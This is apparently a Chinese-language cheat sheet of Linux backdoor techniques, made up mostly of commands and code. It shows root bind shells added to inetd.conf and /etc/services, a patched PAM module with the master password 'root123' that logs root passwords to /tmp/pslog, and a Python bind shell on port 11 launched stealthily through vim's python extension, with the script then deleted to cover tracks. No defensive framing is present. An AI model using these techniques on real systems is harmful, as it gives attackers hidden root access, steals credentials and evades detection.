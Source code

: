 **远程后门**

```vim
vim /etc/inetd.conf
    #discard stream tcp nowait root internal
    #discard dgram udp wait root internal
    daytime stream tcp nowait root /bin/bash bash -i

inetd
然后就可以用 nc 来爆菊
```
可以修改/etc/services文件,加入以下的东西
```vim
vim /etc/services
    woot 6666/tcp #evil backdoor service
vim /etc/inetd.conf
    woot stream tcp nowait root /bin/bash bash -i
```

**PAM 后门**

主要思路:pam_unix_auth.c 打补丁安装到正常的 PAM 模块中.
1、获取目标系统所使用的 PAM 版本:
`rpm -qa |grep pam`
2、编译安装 PAM
3、将本地 pam_unix_auth.c 文件通过打补丁方式,编译生成.
4、编译完后的文件在:modules/pam_unix/.libs/pam_unix.so,后门密码为 root123,并会在 /tmp/pslog 记录 root 登录密码.

**vim 后门**

此方法适用于安装了 vim 且安装了 python 扩展(绝大版本默认安装)的 linux 系统,至于恶意脚本 dir.py 的内容可以是任何功能的后门.如 python 版本的正向后门监听 11 端口.

检测有无扩展
```bash
vim --version | grep python
```

enter the mal script directory 、execute the script and then remove the script
`cd /usr/lib/python2.7/site-packages`

```python
vim dir.py
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
`$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py`
